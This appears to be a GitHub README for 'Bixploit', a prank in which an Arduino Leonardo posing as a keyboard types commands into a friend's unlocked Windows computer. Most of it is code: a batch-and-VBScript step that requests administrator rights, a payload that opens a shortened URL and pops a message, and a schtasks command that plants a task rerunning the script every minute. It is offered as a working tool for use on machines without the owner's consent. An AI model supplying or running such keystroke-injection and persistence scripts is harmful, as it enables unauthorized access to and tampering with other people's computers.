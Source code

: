 # Bixploit

A friend of mine [@Biboon](https://www.github.com/biboon) @bibbon always had the bad idea to leave his computer unlocked.
I told him to lock it, as it might be really unsecure.
I did not.
I changed his homepage to a really "nice" site.
We laught.

Some days later, he did it again. I changed his homepage again. We laught again but he told me that it's not useful to lock a computer if you went AFK less than 20 seconds.

So I create a small script designed for Arduino Leonardo to work as a keyboard and inject a custom task to Windows' task scheduler.

### The first part - the privilege escalation
```
@whoami /groups | find "S-1-16-12288" > nul && goto :admin
set "ELEVATE_CMDLINE=cd /d "%~dp0" & call "%~f0" %*"
findstr "^:::" "%~sf0">temp.vbs
cscript //nologo temp.vbs & del temp.vbs & exit /b
::: Set objShell = CreateObject("Shell.Application")
::: Set objWshShell = WScript.CreateObject("WScript.Shell")
::: Set objWshProcessEnv = objWshShell.Environment("PROCESS")
::: strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
::: objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
:admin -------------------------------------------------------------
@echo off
echo.
cmd /k
```

### The second part - the main script
```
start http://goo.gl/x5sPkr"
Msg * "Friendly reminder: NEVER LEAVE YOUR COMPUTER WITHOUT SURVEILLANCE"
```

### The third part - the scheduler

```
schtasks /create /sc minute /mo 1 /tn "Bixploit" /tr C:\Bixploit.bat
```

## And now it runs !
The privilege escalation part is not mandatory but I thought it was fun to put it at the root of "C:\". Also, you need to have the correct keymapping for the Leoanardo.

**Use it for fun only !**
